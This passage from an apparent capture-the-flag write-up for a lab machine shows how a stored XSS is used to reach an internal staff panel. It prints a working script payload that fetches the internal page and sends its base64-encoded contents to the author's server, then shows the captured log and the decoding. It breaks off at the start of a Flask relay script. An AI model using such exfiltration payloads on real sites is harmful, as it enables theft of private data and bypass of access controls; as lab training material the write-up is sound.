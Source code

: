 There is nothing that would casue this in the source files, so i suspect the Apache server is configured to only allow requests from certain IPs, like 127.0.0.1 or other local addresses,  and deny all others, which would make sense if this website in intended to be used only by staff.

But, maybe i can utilize the previosul discovered XSS to bypass this? I imagine the attack will look like this:

1. Use the XSS to make a request to http://staff-review-panel.mailroom.htb and save the result.
2. Make a request that contains the response to my webserver.

After trying out a few paylaods and failing, i found one that works:
```js
<script>
async function y()
{
    var x = await fetch("http://staff-review-panel.mailroom.htb/");
    var z = await fetch("http://10.10.14.52:8000/recieve/"+btoa(await x.text()));
}
y();
</script>
```
This is very simple script that base64 encodes the recieved html and makes a request to the webserver that i control. I start a webserver and send this payyload in the contact form. And i recieve a response!:

```
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.209 - - [16/Apr/2023 12:13:44] code 404, message File not found
10.10.11.209 - - [16/Apr/2023 12:13:44] "GET /CjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5<more base64>
```

I can decode the base64 and see that it is an HTML page:
```
echo 'CjwhRE9DVFlQRSBodG1sPgo8a<base64>' | base64 -d                  
                                                                                                        
<!DOCTYPE html>                                                                                                   
<html lang="en">                                                                                                  
                                                                                                                  
<head>                                           
  <meta charset="utf-8" />         
  <meta name="viewport" conte
...more html...
```
This approach seems to work. A few things to consider now:

1. This approach creates very long URLs. Some webserver set a limit to how long an URL might be, but this doesn't seem to be an issue since i control the recieving webserver.
2. This is very time consuming to do manually. I need to find a way to automate this.
3. I might need to make a POST request, which will need a different payload.

So, i created a python webserver using Flask:
```python
# Flask webserver to forward requests to http://staff-review-panel.mailroom.htb/ using XSS on http://mailroom.htb/
from flask import Flask, render_template_string, request
from urllib.parse import urlencode
import requests
import base64
from time import sleep
import json
import os, binascii

BASE_URL = "http://mailroom.htb/"
STAFF_URL = "http://staff-review-panel.mailroom.htb"
IP = "10.10.14.52"
```